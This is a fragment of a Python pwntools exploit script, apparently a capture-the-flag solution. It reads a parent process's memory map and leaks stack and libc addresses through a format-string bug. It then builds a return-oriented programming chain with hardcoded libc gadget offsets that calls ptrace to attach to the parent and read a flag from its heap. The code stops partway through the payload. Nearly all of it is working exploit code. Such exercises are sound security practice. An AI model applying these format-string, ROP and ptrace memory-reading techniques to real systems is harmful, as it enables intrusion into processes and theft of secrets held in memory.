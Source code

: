 ```python
        io.sendlineafter(b'>', b'Y')

    io.sendlineafter(b'>', b'1')
    io.recvuntil(b'You are now appreciating your ')
    PPID = int(io.recvuntil(b' RED40', drop=True))

    # ==================
    # READ PARENT VMMAP
    # ==================
    io.sendlineafter(b'>', b'5')
    io.sendlineafter(b'>', f'/proc/{PPID}/maps'.encode())

    io.recvline()
    io.recvlines(5) # remote
    heap = int(io.recvuntil(b'-', drop=True), 16)
    flag_heap = heap + 0x290 + 0x10
    
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b'>', b'%10$p|%41$p')
    
    io.recvline() 
    leak = io.recvline().strip().replace(b'0x', b'').split(b'|')
    stack = int(leak[0], 16)
    libc.address = int(leak[1], 16) - 128 - libc.sym['__libc_start_main']
    stack = stack - 0x188

    # # ==================
    # # LEAKING FLAG
    # # ==================
    payload = b''
    payload += flat({
        56: [
            # PTRACE ATTACH
            libc.address + 0x45eb0, # pop rax; ret
            PTRACE_NR,
            libc.address + 0x2a3e5, # pop rdi; ret
            PTRACE_ATTACH,
            libc.address + 0x2be51, # pop rsi; ret,
            PPID,
            libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
            0x0,
            0x0,
            libc.sym['ptrace'],

            # SLEEP WAIT
            libc.address + 0x2a3e5, # pop rdi; ret
            0x10,
            libc.sym['sleep'],

            # RDI AND RSI FOR PEEKDATA
            libc.address + 0x2a3e5, # pop rdi; ret
            PTRACE_PEEKDATA,
            libc.address + 0x2be51, # pop rsi; ret,
            PPID,

        ]
    })

    for i in range(0, 40, 4):
        payload += craft_ptrace_peek_payload(flag_heap + i, stack + i)

    payload += flat([
            # WRITE
```